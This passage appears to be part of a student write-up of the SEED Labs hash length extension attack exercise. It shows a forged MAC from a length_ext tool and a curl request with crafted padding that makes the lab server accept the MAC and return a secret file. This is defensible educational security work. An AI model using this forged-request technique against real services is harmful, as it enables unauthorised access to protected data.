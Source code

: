 ```
╰─ ./length_ext                                                                  
8e8f85a2baa57e8655581adec8ba3040594ebeb70271a27095f2588cc52b77ea
```

By, filling the URL format presented above with the padding previous calculated, we get the following result:

```sh
curl http://www.seedlab-hashlen.com/\?myname=Cardoso\&uid=1001\&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%40\&download=secret.txt\&mac=8e8f85a2baa57e8655581adec8ba3040594ebeb70271a27095f2588cc52b77ea
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Length Extension Lab</title>
</head>
<body>
    <nav class="navbar fixed-top navbar-light" style="background-color: #3EA055;">
        <a class="navbar-brand" href="#" >
            SEEDLabs
        </a>
    </nav>

    <div style="padding-top: 50px; text-align: center;">
        <h2><b>Hash Length Extension Attack Lab</b></h2>
        <div style="max-width: 35%; text-align: center; margin: auto;">
            
                <b>Yes, your MAC is valid</b>
                

                
                    <h3>File Content</h3>
                    
                        <p>TOP SECRET.</p>
                    
                        <p>DO NOT DISCLOSE.</p>
                    
                        <p></p>
                    
                
            
        </div>
    </div>
</body>
</html>
```
